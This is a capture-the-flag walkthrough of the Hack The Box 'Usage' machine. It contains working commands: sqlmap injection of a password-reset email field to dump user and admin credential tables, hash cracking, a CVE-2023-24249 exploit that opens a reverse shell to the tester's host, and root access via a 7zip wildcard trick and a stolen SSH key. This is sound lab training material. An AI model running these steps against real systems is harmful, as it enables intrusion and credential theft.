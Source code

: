 ![](images/image0.png)

# Usage HTB Walkthrough

---

## Enumeration

```bash
nmap -p- -Pn 10.129.56.30 -v -T5 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && sleep 5 && nmap -Pn 10.129.56.30 -sC -sV -v -oN nmap_sVsC.txt && sleep 5 && nmap -T5 -Pn 10.129.56.30 -v --script vuln -oN nmap_vuln.txt
```

![](images/image1.png)

On port 80 we see this website; the **Admin** option looks interesting.

![](images/image2.png)

When we go there, it shows another login form.

![](images/image25.png)

By checking the source code, we see that it is a **Laravel-Admin/AdminLTE** app.

![](images/image7.png)

---

## Testing Inputs and Vulnerability Discovery

Captured requests in **Burp Suite**, entered `'` into the form fields — resulted in **HTTP 500** for the password reset endpoint.

![](images/image18.png)

The **email** parameter was vulnerable.

![](images/image13.png)

---

## SQL Injection Exploitation

Saved Burp request and executed **sqlmap**:

```bash
sqlmap -r request2 --batch --level 5 --risk 3 --threads 10 -p email --dbs
```

![](images/image9.png)

Then enumerated tables in the `usage_blog` database:

```bash
sqlmap -r request2 --batch --level 5 --risk 3 --threads 10 -p email --tables -D usage_blog
```

![](images/image23.png)

Dumped user credentials:

```bash
sqlmap -r request2 --batch --level 5 --risk 3 --threads 10 -p email --dump -T users -D usage_blog
```

![](images/image8.png)

Dumped `admin_users` table:

```bash
sqlmap -r request2 --batch --level 5 --risk 3 --threads 10 -p email --dump -T admin_users -D usage_blog
```

![](images/image15.png)

We obtained an **admin hash**. Cracked it using **John the Ripper**:

```bash
john --wordlist=rockyou.txt hash.txt
```

![](images/image21.png)

---

## Admin Panel Access and RCE Exploit

Logged in at `admin.usage.htb` using cracked admin credentials.

![](images/image24.png)

After research, identified **CVE-2023-24249**, a known Laravel Admin exploit.

Used exploit from [https://github.com/IDUZZEL/CVE-2023-24249-Exploit](https://github.com/IDUZZEL/CVE-2023-24249-Exploit):

```bash
python3 exploit.py -u http://admin.usage.htb -U admin -P whatever1 -i 10.10.15.30 -p 4444
```

![](images/image20.png)
![](images/image11.png)

User flag located in the home directory.

---

## Lateral Movement

During enumeration, found `.monitrc` file in `/home/dash/` containing credentials.

![](images/image4.png)

Used these credentials to switch to user **xander**:

![](images/image6.png)

---

## Privilege Escalation via 7zip Wildcard Exploit

As user **xander**, running `sudo -l` revealed permission to execute `usage_management` as root.

![](images/image16.png)

The tool has three options. Selecting the first creates a **7zip backup**.

![](images/image14.png)
![](images/image3.png)

Running `strings` on the binary shows the **7za** execution command.

![](images/image17.png)

Found **7zip wildcard exploitation** technique reference:  
[https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/wildcards-spare-tricks.html](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/wildcards-spare-tricks.html)

![](images/image22.png)
![](images/image10.png)

Exploited this to get root and read `root.txt`.

![](images/image19.png)

Alternatively, could copy `/root/.ssh/id_rsa` and connect as root:

```bash
ssh root@10.129.56.30 -i id_rsa
```

![](images/image12.png)
![](images/image5.png)

---

## Summary

- Identified SQLi in Laravel Admin login.  
- Dumped admin credentials and cracked password.  
- Exploited CVE-2023-24249 for shell access.  
- Found credentials in `.monitrc` for user escalation.  
- Used wildcard exploit in 7zip to gain root access.

---
